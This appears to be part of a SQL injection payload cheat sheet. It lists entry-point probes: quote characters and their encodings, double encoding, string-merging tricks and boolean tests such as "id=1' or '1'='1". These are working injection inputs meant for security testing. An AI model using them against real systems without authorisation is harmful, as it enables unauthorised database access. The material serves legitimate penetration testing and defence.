 Techniques for detecting and exploiting *SQL injection* work differently on different platforms:

- Syntax for string concatenation.
- Comments.
- Batched (or stacked) queries.
- Platform-specific APIs.
- Error messages.

## Test injection checkpoint

### Entry point

#### Simple

```sql
    '
    %27
    "
    %22
    #
    %23
    ;
    %3B
    )
    Wildcard (*)
    &apos;  # required for XML content
```

#### Multiple encoding

```sql
    %%2727
    %25%27
```

#### Merging characters

```sql
    `+HERP
    '||'DERP
    '+'herp
    ' 'DERP
    '%20'HERP
    '%2B'HERP
```

#### Logic testing

```sql
    page.asp?id=1 or 1=1 (true)
    page.asp?id=1' or 1=1 (true)
    page.asp?id=1' or '1'='1 (true)
    page.asp?id=1" or 1=1 (true)
    page.asp?id=1 and 1=2 (false)
```

